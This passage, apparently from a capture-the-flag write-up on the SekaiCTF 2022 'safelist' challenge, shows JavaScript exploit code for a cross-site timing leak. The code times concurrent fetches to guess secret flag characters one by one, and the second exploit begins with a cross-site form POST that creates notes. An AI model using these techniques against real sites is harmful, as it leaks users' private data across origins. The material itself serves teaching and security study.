```html
                fetch("https://example.com", { mode: "no-cors" }),
                fetch("https://example.com", { mode: "no-cors" }),
                fetch("https://example.com", { mode: "no-cors" }),
                fetch("https://example.com", { mode: "no-cors" })
            ]);
            let delta = performance.now() - start;
            document.title = delta;
            controller.abort();

            log("test_" + c + "_" + i, delta);
            
            // Save time needed
            deltas.push(delta);
        }
        return deltas;
    };
    
    // Check each char
    const pwn = async () => {
        // Try to leak each character
        for(let i = 0; i < alphabet.length; i++) {
            //Check the indicated char
            let deltas = await leak(alphabet[i]);
            
            // Calculate mean time from requests to example.com
            let avg = deltas.reduce((a,v) => a+v, 0) / deltas.length;
            
            // If greater than 250, the HTML code was injected (flag in index 0)
            if (avg > 250) {
                log("tests_pos_" + alphabet[i], deltas)
            }
            // Flag in the page
            else {
                log("tests_neg_" + alphabet[i], deltas)
            }
        }
    };

    window.onload = async () => {
        pwn();
    };
</script>
```

### Exploit 2

Same tactic but different code from [https://blog.huli.tw/2022/10/05/en/sekaictf2022-safelist-xsleak/](https://blog.huli.tw/2022/10/05/en/sekaictf2022-safelist-xsleak/)

```html
<!DOCTYPE html>
<html>
<!--
  The basic idea is to create a post with a lot of images which send request to "/" to block server-side nodejs main thread.
  If images are loading, the request to "/" is slower, otherwise faster.
  By using a well-crafted height, we can let note with "A" load image but note with "Z" not load.
  We can use fetch to measure the request time.
-->
<body>
  <button onclick="run()">start</button>
  <form id=f action="http://localhost:1234/create" method="POST" target="_blank">
    <input id=inp name="text" value="">
  </form>
```
